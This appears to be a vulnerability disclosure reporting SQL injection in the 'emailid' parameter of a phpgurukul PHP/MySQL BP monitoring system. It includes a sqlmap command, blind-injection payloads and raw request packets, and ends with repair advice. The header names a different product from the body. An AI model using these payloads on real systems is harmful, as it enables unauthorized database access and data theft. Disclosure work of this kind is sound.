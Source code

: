 # phpgurukul BP Monitoring Management System using PHP and MySQL V1.0 /registration.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Company Visitors Management System

## Vendor Homepage

- https://phpgurukul.com/company-visitor-management-system-using-php-and-mysql/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Rmyxx

## Vulnerable File

- /registration.php

## VERSION(S)

- V1.0

## Software Link

- https://phpgurukul.com/bp-monitoring-management-system-using-php-and-mysql/

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was identified within the "/registration.php" file of the "BP Monitoring Management System using PHP and MySQL" project. The root cause lies in the fact that attackers can inject malicious code via the parameter "emailid". This input is then directly utilized in SQL queries without undergoing proper sanitization or validation processes. As a result, attackers are able to fabricate input values, manipulate SQL queries, and execute unauthorized operations.

## Impact

- Exploiting this SQL injection vulnerability allows attackers to gain unauthorized access to the database, cause sensitive data leakage,  tamper with data, gain complete control over the system, and even  disrupt services. This poses a severe threat to both the security of the system and the continuity of business operations.

# DESCRIPTION

- During the security assessment of "BP Monitoring Management System using PHP and MySQL", I detected a critical SQL injection vulnerability in the  "/registration.php" file. This vulnerability is attributed to the  insufficient validation of user input for the "emailid" parameter. This  inadequacy enables attackers to inject malicious SQL queries.  Consequently, attackers can access the database without proper  authorization, modify or delete data, and obtain sensitive information.  Immediate corrective actions are essential to safeguard system security  and uphold data integrity.

# Vulnerability details and POC

## Vulnerability location:

- "emailid" parameter

## Payload:

python sqlmap.py -r 1.txt -p emailid -dbms=mysql -dbs

```
Here are the results of sqlmap：


POST parameter 'emailid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: emailid (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: emailid=john@test.com' AND 5328=5328 AND 'GPpu'='GPpu

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: emailid=john@test.com' AND (SELECT 4967 FROM (SELECT(SLEEP(5)))hhry) AND 'FNwB'='FNwB
---
[18:02:20] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 8.0.2
back-end DBMS: MySQL >= 5.0.12
[18:02:20] [INFO] fetched data logged to text files under 'C:\Users\Rmyxx\AppData\Local\sqlmap\output\cve'

```

​     the following is 1.txt

```
1.txt




POST /bpmms/check_availability.php HTTP/1.1
Host: cve
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://cve
Referer: http://cve/bpmms/registration.php
Accept: */*
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=1aflt39bmsiu75til126sqsd5m
Content-Length: 22

emailid=john@test.com

```



## Vulnerability Request Packet

```
POST /bpmms/check_availability.php HTTP/1.1
Host: cve
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://cve
Referer: http://cve/bpmms/registration.php
Accept: */*
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=1aflt39bmsiu75til126sqsd5m
Content-Length: 22

emailid=john@test.com

```

​      

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:



```
python sqlmap.py -r 1.txt -p emailid -dbms=mysql -dbs
```

![image-20250606180708212](C:\Users\Rmyxx\AppData\Roaming\Typora\typora-user-images\image-20250606180708212.png)







# Suggested repair

1. **Employ prepared statements and parameter binding:**
   Prepared statements serve as an effective safeguard against SQL  injection as they segregate SQL code from user input data. When using  prepared statements, user - entered values are treated as mere data and  will not be misconstrued as SQL code.
2. **Conduct input validation and filtering:**
   Rigorously validate and filter user input data to guarantee that it  conforms to the expected format. This helps in blocking malicious input.
3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has only the  minimum required permissions. Avoid using accounts with elevated  privileges (such as 'root' or 'admin') for day - to - day operations.